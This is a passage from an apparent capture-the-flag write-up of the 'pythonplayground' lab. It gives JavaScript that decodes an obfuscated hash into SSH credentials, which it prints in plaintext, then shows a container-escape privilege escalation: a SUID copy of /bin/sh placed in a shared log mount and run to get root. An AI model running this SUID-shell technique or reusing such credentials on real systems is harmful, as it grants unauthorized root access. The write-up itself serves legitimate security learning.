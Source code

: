 ```javascript
--> or <--

let hash = "dxeedxebdwemdwesdxdtdweqdxefdxefdxdudueqduerdvdtdvdu"

function reverse(hash,iterations){
  
  if(iterations > 0){
    let reversedHash = ''
    for(let i=0; i < hash.length; i = i+2 ){
      reversedHash += String.fromCharCode(26 * (hash.charCodeAt(i) - 97) + (hash.charCodeAt(i + 1) - 97));
    }    
    return reverse(reversedHash,iterations - 1);
  }else{
    return hash;
  }
  
}
console.log(reverse(hash,2))
```
{% endcode %}

Then connected with <mark style="color:red;">connor:spaghetti1245</mark> using ssh. We find flag2.

### Flag-3

Used linpeas to enumerate the system within the container, it pointed out that there was a mounted directory called `/mnt/log`  the /mnt/log (root shell machine) is linked to /var/log on "connor" machine. A close look shows us that this directory (/mnt/log) contains logs from machine we logged in using Connor's credentials. As we are root on this machine, prepare something for connor to help him get root.

{% code overflow="wrap" lineNumbers="true" %}
```bash
cp /bin/sh /mnt/log
chmod +s /mnt/log/sh
ls -l /mnt/log/sh
# output should be like this..
-rwsr-sr-x 1 root root 129816 Jun 10 14:09 /mnt/log/sh
```
{% endcode %}

Now we need to back to connor's ssh session and execute:

```
connor@pythonplayground:~$ /var/log/sh -p
# cd /root/
# ls
flag3.txt
```

Done.
